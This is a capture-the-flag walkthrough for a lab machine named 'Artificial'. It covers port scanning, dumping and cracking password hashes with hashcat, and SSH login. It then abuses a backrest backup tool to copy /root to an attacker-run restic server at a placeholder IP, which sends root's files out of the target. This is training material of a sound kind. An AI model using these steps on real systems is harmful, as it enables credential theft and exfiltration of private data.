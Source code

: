 # Artificial - Live Machine

## Basic enumeration:

Did  
```bash
nmap -sV -sC -p- --min-rate 500 10.10.11.74
```

found a http server running which redirects to a artificial.htb site - so added the ip and site to /etc/hosts  
found a python http server which was serving the entire source code along with the .db file  

Dumped the user table and got the password hashes  
added all the pass hashes to `artifical_machine_pass.txt`  

ran  
```bash
hashcat -a 0 -m 0 artifical_machine_pass.txt /usr/share/wordlists/rockyou.txt.gz 
```

got some password  
tried a password for a user Gael in ssh login and I got in  

got the user flag  

---

Ran `whoami && id` - it returned:  
```
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

noticed the group “sysadm” - now  

check files with access level for sysadm:  
```bash
find / -group sysadm -ls 2>/dev/null
```

found `/var/backups/backrest_backup.tar.gz`  

extracted the file using:  
```bash
tar -xvf backrest_backup.tar.gz
```

(since it's only named as tar.gz it's not actually gzip)  

found a directory called `.config` and found a config file and saw a username and password in base64 format  

decoded the base64 using:  
```bash
base64 -d
```

ran  
```bash
hashcat -m 3200 clean_bcrypt.hash /usr/share/wordlists/rockyou.txt
```

cracked the password  

logged in to backrest  

---

Created a repo in backrest  
gave:
- repo URL as `/opt`
- password as `1234567`

after creating, tried running `help` command in the run command for repo  

---

In my machine I setup a simple rest-server using:  
```bash
rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

- `--path` for where the repo should be  
- `--no-auth` to mention no auth needed to access  
- `--listen` for the port number  

---

then ran these commands in the repo in backrest:  
```bash
-r rest:http://<my-ip>:12345/myrepo init
-r rest:http://<my-ip>:12345/myrepo backup /root
```

got the backup and now in my machine I went to the path: `/tmp/restic-data`  

ran command:  
```bash
restic -r /tmp/restic-data/myrepo snapshots
```

this gets the backup file ID which was `68b523b8` — we will use this in the next command  

```bash
restic -r /tmp/restic-data/myrepo restore 68b523b8 --target ./restore
```

this will put the actual backup files inside the restore folder  

now we go to the restore folder and we get the root flag
